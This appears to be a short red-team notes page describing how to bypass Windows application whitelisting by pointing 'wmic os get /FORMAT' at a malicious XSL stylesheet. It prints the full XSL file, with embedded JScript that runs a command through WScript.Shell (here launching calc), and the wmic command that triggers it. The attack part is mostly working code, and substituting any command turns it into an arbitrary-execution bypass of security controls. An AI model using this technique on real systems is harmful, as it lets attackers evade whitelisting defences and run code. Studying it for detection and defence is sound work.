

# Application Whitelisting Bypass with WMIC and XSL

Another application whitelist bypassing technique discovered by Casey @subTee, similar to squiblydoo:



## Execution

Define the XSL file containing the jscript payload:


```csharp
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("calc");
	]]> </ms:script>
</stylesheet>
```


Invoke any wmic command now and specify /format pointing to the evil.xsl:


```csharp
wmic os get /FORMAT:"evil.xsl"
```



## Observation

Calculator is spawned by svchost.exe:



## References




